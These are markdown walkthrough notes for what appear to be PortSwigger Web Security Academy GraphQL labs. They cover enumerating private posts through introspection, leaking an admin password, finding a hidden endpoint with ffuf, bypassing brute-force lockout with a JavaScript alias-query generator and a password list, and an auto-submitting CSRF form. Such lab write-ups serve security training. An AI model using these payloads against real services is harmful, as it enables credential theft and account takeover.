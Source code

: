 # Navigation
- [Accessing private GraphQL posts](#accessing-private-graphql-posts)
- [Accidental exposure of private GraphQL fields](#accidental-exposure-of-private-graphql-fields)
- [Finding a hidden GraphQL endpoint](#finding-a-hidden-graphql-endpoint)
- [Bypassing GraphQL brute force protections](#bypassing-graphql-brute-force-protections)
- [Performing CSRF exploits over GraphQL](#performing-csrf-exploits-over-graphql)
# Accessing private GraphQL posts
- Find hidden post and enter the password
1. Navigate application
2. See there is a POST request to a graphql endpoint
3. Send the request to repeater
4. Right-click > Graphql > Set introspection query
	1. We get introspection on the endpoint
5. Right-click the response > Graphql > Save graphql queries
6. Go to the target tab and look at the different queries we can perform
7. There is a query to get a blog post by its ID number (i.e. 1,2,3,4,5...)
	1. Each query returns a property from the blog post indicating if it is private or note (`"isPrivate":false`)
8. Send this request to intruder
```
{"query":"query($id: Int!) {\n  getBlogPost(id: $id) {\n    id\n    image\n    title\n    author\n    date\n    summary\n    paragraphs\n    isPrivate\n    postPassword\n  }\n}","variables":{"id":<payload-marker-here>}}
```
- Configure the following
	- Attack type: Sniper
	- Payload type: Numbers (0-20)
	- Configure a Grep - Extract rule to retrieve the `"isPrivate":false`) value returned from all requests
9. Begin attack
10. Look at the results and see there is one post with `"isPrivate":true`
11. Copy password
# Accidental exposure of private GraphQL fields
- Sign in as admin and delete Carlos
1. Navigate application
2. See there is a POST request to a graphql endpoint
3. Send the request to repeater
4. Right-click > Graphql > Set introspection query
	1. We get introspection on the endpoint
5. Right-click the response > Graphql > Save graphql queries
6. Go to the target tab and look at the different queries we can perform
7. There is a query to get a user and it includes their password
```
{"query":"query($id: Int!) {\n  getUser(id: $id) {\n    id\n    username\n    password\n  }\n}","variables":{"id":1}}
```
8. Send this to repeater, providing `"id":1` returns administrator and their password
9. Sign in as administrator
# Finding a hidden GraphQL endpoint
- Find hidden graphql endpoint
- Delete Carlos
1. Discover content using `ffuf`
	1. Use the basic graphql endpoints wordlist from resources
```sh
ffuf -u https://0af0001703cf6e2a80d84987005300c0.web-security-academy.netFUZZ -w graphql.txt -mc all
```
- We are matching all codes and looking at the differences in response size
```
/graphql/graphql        [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 348ms]
/graphql/api            [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 351ms]
/graphql                [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 356ms]
/api/graphql            [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 357ms]
/api                    [Status: 400, Size: 19, Words: 3, Lines: 1, Duration: 363ms]
:: Progress: [5/5] :: Job [1/1] :: 178 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```
- See that `/api` returns a 400 status code and is a different size to the rest
2. Performing GET request on `/api` tells us "Query not present" in the HTTP response
3. Probe with a graphql query
	1. Even in the GET request add a `Content-Type: application/json`
```json
    {
        "query": "{__schema{queryType{name}}}"
    }
```
- Response tells us that Introspection is not allowed
4. Test introspection bypasses
5. Right-click > Graphql > Set introspection query
6. Place a newline after the `__schema` to it becomes `__schema\n`
7. We get successful introspection query
8. Right-click the response > Graphql > Save graphql queries to sitemap
9. Checking the sitemap there is a mutation to delete users based on the `id` value that is given
10. Change this value incrementally until we delete Carlos (which is `"id":3`) in this case
# Bypassing GraphQL brute force protections
- Brute force Carlos
1. Login to the page using `wiener:peter` and see the request is a POST request to a graphql endpoint
2. Under the hood, we see a mutation query that returns a login token and tells us `"success:true"`
3. Attempting a normal brute force against Carlos triggers and account lockout
4. Using the following JavaScript, we can create a list of alias queries to bypass the brute force mechanism try all of these against Carlos
```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```
5. Open console > Paste the above JS > The aliases are saved to clipboard
6. Send the login request to repeater
7. Select the GraphQL tab and remove all data
8. In the Query box add the following, then paste the queries inside
```
mutation{
<paste-here>
}
```
9. Send the request and check the HTTP response for a `"success:true"` message
10. Copy the associated token value and replace your session cookie in the browser
# Performing CSRF exploits over GraphQL
- Change the victim's email address
1. Authenticate
2. Change email and notice GraphQL mutation being made to update the email address
3. Trying to change method to GET does not work, we get 405 Method Not Allowed
4. Changing the content type to `application/x-www-form-urlencoded` does work however
5. Construct a valid POST body by doing the following
6. GraphQL tab in Repeater > Copy **only** the "Query" section and paste it somewhere to edit it
	1. Replace all the new lines with spaces
7. Copy **only** the "Variables" section and paste it somewhere to edit it
	1. Replace all the new lines with spaces
8. Go to [URL Encode and Decode - Online](https://www.urlencoder.org/)
	1. URL encode each payload you made **separately**
9. Construct a POST body or GET params like so:
```
query=<encoded-query>&variables=<encoded-variables>
```
10. Send the request and confirm that it works
11. Construct a CSRF POST attack, but this time **do not use the URL encoded values**
```html
<html>
	<body>
		<form action="https://0afa00710456b60181ba618d002f00fd.web-security-academy.net/graphql/v1" method="POST">
			<input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }" />
			<input type="hidden" name="variables" value='{"input":{"email":"test2@test.com"}}' />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
